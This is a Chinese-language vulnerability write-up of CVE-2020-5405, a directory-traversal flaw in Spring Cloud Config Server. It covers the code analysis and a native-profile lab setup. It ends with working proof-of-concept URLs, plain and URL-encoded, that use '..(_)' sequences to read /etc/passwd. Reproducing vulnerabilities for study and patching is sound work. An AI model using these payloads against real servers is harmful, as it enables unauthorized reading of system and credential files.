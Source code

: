（CVE-2020-5405）Spring Cloud Config Server 目录穿越漏洞
========================================================

一、漏洞简介
------------

Spring Cloud
Config为分布式系统的外部配置提供客户端的服务端的支持。使用了它，开发人员就可以在一个中心仓库管理应用程序在所有环境中的外部配置。2020-02-26
Spring 收到漏洞报告, Spring Cloud Config Server 存在目录穿越漏洞。

二、漏洞影响
------------

Spring Cloud Config Server 2.2.0-2.2.1

Spring Cloud Config Server 2.1.0-2.1.6

三、复现过程
------------

### 漏洞分析

其实往前看有个替换的操作,很显眼

![](./.resource/(CVE-2020-5405)SpringCloudConfigServer目录穿越漏洞/media/rId25.png)

name和label的`(_)`会被替换成`/`,看到这里,我尝试构造poc

    http://www.0-sec.org:8888/aaaa/aaaa/%2e%2e%28%5f%29%2e%2e%28%5f%29%2e%2e%28%5f%29%2e%2e%28%5f%29%2e%2e%28%5f%29%2e%2e%28%5f%29%2e%2e%28%5f%29%2e%2e%28%5f%29%65%74%63/passwd

我们让label为`..(_)..(_)..(_)..(_)..(_)..(_)..(_)..(_)etc`,path为`passwd`,这样拼接完应该是`file:/xxx/xxx/xxx/../../../../../etc/passwd`

但是如果label不为master的话,代码逻辑就会先去checkout,然后就异常了

这里面会导致抛出异常,具体抛出异常的点在哪呢,在`org.springframework.cloud.config.server.environment.MultipleJGitEnvironmentRepository`

![](./.resource/(CVE-2020-5405)SpringCloudConfigServer目录穿越漏洞/media/rId26.png)

在CVE-2019-3799中,我们使用的配置是常用的`spring.cloud.config.server.git.uri`,它会选择使用`MultipleJGitEnvironmentRepository.class`的getLocations,然后就会走到checkout,抛出异常了,那么我们怎么去不走checkout逻辑呢。

通过翻文档[https://zq99299.github.io/note-book/spring-cloud-tutorial/config/002.html\#%E7%89%88%E6%9C%AC%E6%8E%A7%E5%88%B6%E5%90%8E%E7%AB%AF%E6%96%87%E4%BB%B6%E7%B3%BB%E7%BB%9F](https://zq99299.github.io/note-book/spring-cloud-tutorial/config/002.html#版本控制后端文件系统)

得知这个配置是让它从本地进行加载,而不是用git,通过在application.properties配置

    spring.profiles.active=native
    spring.cloud.config.server.native.search-locations=file:/Users/p0desta/Desktop

其实通过补丁我们也可以发现端倪

![](./.resource/(CVE-2020-5405)SpringCloudConfigServer目录穿越漏洞/media/rId28.png)

配置后重新跟进调试

![](./.resource/(CVE-2020-5405)SpringCloudConfigServer目录穿越漏洞/media/rId29.png)

然后就在`/org/springframework/cloud/config/server/environment/NativeEnvironmentRepository.class@getLocations`中对路径进行了处理,大致就是对路径进行拼接,然后存在ouput数组中,返回一个新的Locations对象

![](./.resource/(CVE-2020-5405)SpringCloudConfigServer目录穿越漏洞/media/rId30.png)

然后后面就是跟CVE-2019-3799一样,直接读文件了。

### 漏洞复现

下载官方Spring Cloud
Config，具体版本`versions 2.1.5.RELEASE`，下载地址为：

    https://github.com/spring-cloud/spring-cloud-config/archive/v2.1.5.RELEASE.zip

导入IDEA项目

![1.png](./.resource/(CVE-2020-5405)SpringCloudConfigServer目录穿越漏洞/media/rId32.png)

修改配置文件`src/main/resources/configserver.yml`

    info:
      component: Config Server
    spring:
      application:
        name: configserver
      autoconfigure.exclude: org.springframework.boot.autoconfigure.jdbc.DataSourceAutoConfiguration
      jmx:
        default_domain: cloud.config.server
      profiles:
        active: native
      cloud:
        config:
          server:
            native:
              search-locations:
                - file:///Users/rai4over/Desktop/spring-cloud-config-2.1.5/config-repo

    server:
      port: 8888
    management:
      context_path: /admin

设置`profiles-active`为`native`，设置`search-locations`为任意文件夹。

主文件入口位置为`org.springframework.cloud.config.server.ConfigServerApplication`，运行`spring-cloud-config-server`模块，环境开启成功运行在`127.0.0.1:8888`。

### POC

    https://www.0-sec.org:8888/1/1/..(_)..(_)..(_)..(_)..(_)..(_)..(_)..(_)..(_)etc/passwd

URL编码变形

    https://www.0-sec.org:8888/1/1/..%28_%29..%28_%29..%28_%29..%28_%29..%28_%29..%28_%29..%28_%29..%28_%29etc/passwd

返回结果

![2.png](./.resource/(CVE-2020-5405)SpringCloudConfigServer目录穿越漏洞/media/rId34.png)

参考链接
--------

> http://p0desta.com/2020/04/16/spring-cloud-config%E7%9B%AE%E5%BD%95%E7%A9%BF%E8%B6%8A%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/\#CVE-2020-5405%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90
>
> https://xz.aliyun.com/t/8303
